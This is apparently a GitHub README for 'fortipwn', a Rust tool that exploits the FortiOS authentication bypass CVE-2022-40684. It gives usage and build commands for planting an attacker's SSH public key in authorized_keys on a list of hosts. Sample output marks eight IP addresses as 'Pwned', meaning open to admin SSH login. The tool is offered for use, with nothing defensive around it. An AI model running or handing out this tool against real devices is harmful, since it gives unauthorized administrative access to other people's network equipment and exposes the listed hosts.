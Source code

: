 # fortipwn

Forti CVE-2022-40684 enumeration script built in Rust.

Uploads an SSH public key into authorized_keys, allowing an attacker to SSH into a server running FortiOS as admin.

# Usage
```console
$ ./fortipwn <hosts.txt> <id_rsa.pub>
```

# Build
```console
$ git clone https://github.com/Grapphy/fortipwn/
$ cd fortipwn
$ cargo build --release
$ cd target/release/
$ ./fortipwn <host.txt> <id_rsa.pub>
```

# Output
```console
$ ./fortipwn examples_ip.txt id_rsa.pub
Checking for 150 hosts. You might log-in through ssh as admin@host on pwned hosts.
Pwned: 210.29.110.143
Pwned: 144.14.71.122
Pwned: 21.220.10.82
Pwned: 163.123.102.32
Pwned: 121.159.192.10
Pwned: 162.49.194.19
Pwned: 185.92.20.40
Pwned: 194.19.211.19
Finished scanning
```
